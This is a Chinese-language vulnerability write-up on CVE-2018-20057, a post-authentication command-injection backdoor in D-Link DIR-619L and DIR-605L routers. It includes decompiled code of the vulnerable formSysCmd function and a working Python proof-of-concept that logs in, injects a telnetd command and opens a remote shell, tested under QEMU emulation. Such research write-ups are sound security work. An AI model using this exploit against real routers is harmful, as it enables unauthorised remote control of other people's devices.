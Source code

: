 # （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

> 原文：[http://book.iwonder.run/iot/D-Link/CVE-2018-20057.html](http://book.iwonder.run/iot/D-Link/CVE-2018-20057.html)

## 一、漏洞简介

D-LINK 的 DIR-619L Rev.B 2.06B1 版本之前和 DIR-605L Rev.B 2.12B1 版本之前的设备，在/bin/boa 文件的 formSysCmd 函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd 并指定 sysCmd 参数，从而实现远程命令注入。 
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与 CVE-2018-20056 相同。

## 二、漏洞影响

D-LINK 的 DIR-619L Rev.B 2.06B1 版本之前和 DIR-605L Rev.B 2.12B1 版本之前的设备。

## 三、复现过程

### 漏洞分析

查看 ghidra 中的反编译代码，在 formSysCmd 中，首先获取 sysCmd 参数，然后通过 snprintf 写入栈中变量，直接调用 system 函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104];

  uVar1 = websGetVar(uParm1,"submit-url",&DAT_004ac874);
  //获取 post 参数 sysCmd，该参数可由用户控制
  pcVar2 = (char *)websGetVar(uParm1,"sysCmd",&DAT_004ac874);
  if (*pcVar2 != 0) {
    //将 sysCmd 写入栈中，并调用 system 执行
    snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");
    system(acStack120);
  }
  websRedirect(uParm1,uVar1);
  return;
} 
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在 qemu 中模拟固件，通过 apmib_get 读取路由器本地配置无法实现，所以在劫持了 apmib_get 函数之后，login 输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug')

ip='192.168.84.129'
port=101
def login(user,password):
    postData = {
    'login_name':'',
    'curTime':'1234',
    'FILECODE':'',
    'VER_CODE':'',
    'VERIFICATION_CODE':'',
    'login_n':user,
    'login_pass':base64.b64encode(password),
    }
    response = requests.post('http://'+ip+'/goform/formLogin',data=postData)
    #print response.url
def syscmd(cmd):
    postData = {
    'sysCmd':cmd,
    'submit-url':'1234',
    }
    response = requests.post('http://'+ip+'/goform/formSysCmd',data=postData)
    #print response.url
def inter():
    p=remote(ip,port)
    p.interactive()
if __name__ == "__main__":
    login('','')#这里要写实际的用户名和密码，例如 admin 12345
    syscmd('telnetd -p '+str(port))
    inter() 
```

另由于 qemu 模拟时，/dev 下没有 pty 设备，导致 telnet 连接不能实现，但是端口是已经打开了：

![image](img/52af24b95631716d85e27cc58d5b03ab.png)

![image](img/220b5fe396a61404c90d57b4ab02ffca.png)

